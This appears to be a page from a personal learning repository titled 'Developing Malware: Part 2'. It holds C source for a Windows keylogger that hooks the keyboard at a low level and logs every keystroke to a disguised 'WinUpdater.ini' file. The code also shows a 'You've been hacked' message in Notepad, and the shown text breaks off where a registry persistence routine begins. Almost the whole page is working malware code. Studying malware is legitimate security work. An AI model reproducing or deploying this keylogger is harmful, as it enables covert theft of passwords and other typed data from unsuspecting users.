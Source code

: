 # Developing Malware: Part 2
I've developed a malware that's based on the [](C%20Task%203.md.md#Keylogger.c|keylogger%20from%20Task%203) and added a few functionalities that makes it persistent and also spooky for the user.

```c
#define _CRT_SECURE_NO_WARNINGS
#include <Windows.h>
#include <stdio.h>
HHOOK hHook;
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode == HC_ACTION) {
        if (wParam == WM_KEYDOWN) {
            KBDLLHOOKSTRUCT* p = (KBDLLHOOKSTRUCT*)lParam;
            CreateDirectory(L"C:\\temp", NULL);
            FILE* file = fopen("C:\\temp\\WinUpdater.ini", "a+");
            if (file) {
                fprintf(file, "%c", p->vkCode);
                fclose(file);
            }
        }
    }
    return CallNextHookEx(hHook, nCode, wParam, lParam);
}

DWORD WINAPI KeyloggerThread(LPVOID lpParam) {
    HINSTANCE hInstance = GetModuleHandle(NULL); // Current Instance of exe.
    hHook = SetWindowsHookEx(WH_KEYBOARD_LL, KeyboardProc, hInstance, 0); //Low level keyboard hook, triggering KeyboardProc in the current instance.
    MSG msg; //msg object
    while (GetMessage(&msg, NULL, 0, 0)) { // Obtain message in the thread message queue
        TranslateMessage(&msg);
        DispatchMessage(&msg);
    }
    UnhookWindowsHookEx(hHook);
    return 0;
}
void launch_notepad() {
    SHELLEXECUTEINFO shExecInfo;
    ZeroMemory(&shExecInfo, sizeof(SHELLEXECUTEINFO));
    shExecInfo.cbSize = sizeof(SHELLEXECUTEINFO);
    shExecInfo.fMask = SEE_MASK_DEFAULT;
    shExecInfo.hwnd = NULL;
    shExecInfo.lpVerb = L"open";
    shExecInfo.lpFile = L"notepad.exe";
    shExecInfo.lpParameters = L"LOL.txt";
    shExecInfo.lpDirectory = NULL;
    shExecInfo.nShow = SW_SHOW;
    shExecInfo.hInstApp = NULL;
    ShellExecuteEx(&shExecInfo);
}

void scare_message() {
    FILE* file = fopen("LOL.txt", "w+");
    if (file) {
        for (int i = 0; i < 1000; i++)
        {
            fprintf(file, "You've been hacked!!\n");
        }
        launch_notepad();
    }
} 

void static registry_adder(LPCWSTR key_path, LPCWSTR val_name) {
```